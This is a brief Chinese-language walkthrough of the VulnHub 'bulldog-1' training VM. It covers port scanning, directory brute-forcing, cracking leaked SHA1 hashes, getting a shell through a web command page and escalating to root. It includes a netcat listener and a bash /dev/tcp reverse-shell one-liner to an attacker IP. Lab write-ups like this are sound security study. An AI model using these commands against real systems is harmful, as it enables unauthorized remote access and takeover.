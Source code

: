 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態  
DirBuster爆破目錄，發現在/dev/中的source code有提示

> Need these password hashes for testing. Django's default is too complex  
We'll remove these in prod. It's not like a hacker can do anything with a hash

把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  
查看可疑user，發現bulldogadmin和django，查看bulldogadmin文件，發現可疑目錄/home/bulldogadmin/.hiddenadmindirectory
從note中發現提示  
> Literally run the app, give your account password >
用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH
imatePASH
SWORDyouH
CANTget`
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件
`cat congrats.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

As far as I know there are two ways to get root. Can you find the other one?

Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!`
